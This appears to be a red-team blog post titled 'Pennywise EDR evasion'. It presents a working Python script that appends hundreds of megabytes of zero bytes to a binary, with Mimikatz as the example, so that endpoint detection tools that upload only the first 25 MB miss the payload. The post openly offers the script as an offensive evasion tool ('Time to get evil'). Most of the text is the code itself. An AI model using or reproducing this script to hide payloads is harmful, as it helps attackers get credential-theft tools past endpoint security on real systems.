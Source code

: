 ```yaml
---

layout: post
title: Pennywise EDR evasion
---
```


<img height="200" align="left" src="/images/pennywise.png"> <br><br>Wanna have a balloon? This Tiny script helps to hide your payload (like Mimikatz.exe) by inflating the Binary like a red ballon. Most EDR Tools only transfer the first 25 MB to the Server, so why not filling up the payload with some garbage and play some mind tricks? This change of the file size will keep the binary as it is but busts the file size. TIme to get evil ...

<br><br><br><br><br><br>
Tiny intro how this script works:

![](../images/pennywise_inflate.gif)

```python
#!/usr/bin/env python3
import argparse
import struct
import sys


parser = argparse.ArgumentParser(
    description="Pennywise's Red Balloon - Inflate your Payload"
)

parser.add_argument(
    "-f",
    "--file",
    help="Binary or file path including the binary",
)

parser.add_argument(
    "-s", 
    "--size",
    default=150,
    help="Size in MB to inflate binary - Default 150 MB", 
    type=int
)

args = parser.parse_args()

if len(sys.argv) <= 1:
    parser.print_help()
    sys.exit(1)

if not args.file:
    print("[!] Binary or path to a binary required!\n\n"
    "\t$ python -f c:\\fun\\mimikatz.exe -s 100\n"
    "\t$ python -f mimikatz.exe -s 250\n\n")
    parser.print_help()
    sys.exit(1)    

def transform(file, size):
    print("[!]\tInflating %s by %s MB" % (file, size))
    blank_bytes = struct.pack('B', 0)
    transformer = open(file, 'ab')
    transformer.write(blank_bytes * 1024 * 1024 * size)
    transformer.close()
    print("[!]\tOperation Complete...\n")

if __name__ == "__main__":
    transform(args.file, args.size)
```
